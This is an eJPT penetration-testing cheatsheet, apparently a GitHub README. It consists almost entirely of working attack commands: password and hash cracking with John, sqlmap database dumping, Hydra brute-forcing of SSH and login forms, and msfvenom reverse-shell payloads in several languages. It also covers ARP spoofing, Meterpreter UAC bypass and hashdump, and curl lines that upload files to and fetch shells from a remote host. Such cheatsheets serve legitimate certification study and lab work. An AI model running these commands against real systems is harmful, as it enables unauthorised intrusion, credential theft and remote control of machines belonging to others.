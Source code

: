 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT.

## Nmap
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial
nmap -A -p- -iL targets -oN nmap.aggressive

## fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

## IP Route
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

## John

<--Crack Password Hash-->
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5

<--Crack SSH Private Key Hash-->
python3 /opt/john/ssh2john.py id_rsa > ssh_hash.txt
john --wordlist=/root/Tools/wordlists/rockyou.txt ssh_hash.txt

<--Crack Zip File Password Hash-->
zip2john file.zip > zip_hash.txt
john --wordlist=/root/Tools/wordlists/rockyou.txt zip_hash.txt

<--Crack /etc/passwd /etc/shadow Password Hash-->
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt

## dirb
<--Normal mode-->
dirb http://10.10.10.10/

<--With Authentication required-->
dirb http://10.10.10.10/dir -u admin:admin

## Netcat
<--Listening for reverse shell-->
nc -nvlp 1234

<--Banner Grabbing-->
nc -nv 10.10.10.10 <port>

## SQLMap
<--Check if injection exists-->
<~ With POST Request. Save the post request in a login.req file ~>
sqlmap -r login.req
<~ With url GET Request ~>
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
<~ With POST Data ~>
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" 

<--Get database if injection Exists-->
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs

<--Get Tables in a Database-->
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

<--Get data in a Database tables-->
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
<--SSH Login Bruteforcing-->
<~ With unknown username and password ~>
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
<~ With unknown password ~>
hydra -v -V -u -l admin -P passwords.txt -t 1 -u 10.10.10.10 ssh
Use same for FTP, just replace ssh with ftp

<--HTTP POST Form-->
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

## msfvenom shells
JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
<--Get shares, users, groups, password policy-->
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v

<--Access Share-->
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v
ftp 10.10.10.10

## Meterpreter
ps
getuid
getpid
getsystem
ps -U SYSTEM
<--CHECK UAC/Privileges-->
run post/windows/gather/win_privs
<--BYPASS UAC-->
*Background the session first
exploit/windows/local/bypassuac
set session
<--After PrivEsc-->
migrate <pid>
hashdump

## Remote code execution
<--curl-->
curl http://10.10.10.10:8888 -T /tmp/r
curl http://10.10.10.10:8888/shell -o /tmp/shell
curl http://10.10.10.10/'id' | base64
curl http://10.10.10.10/'whoami'


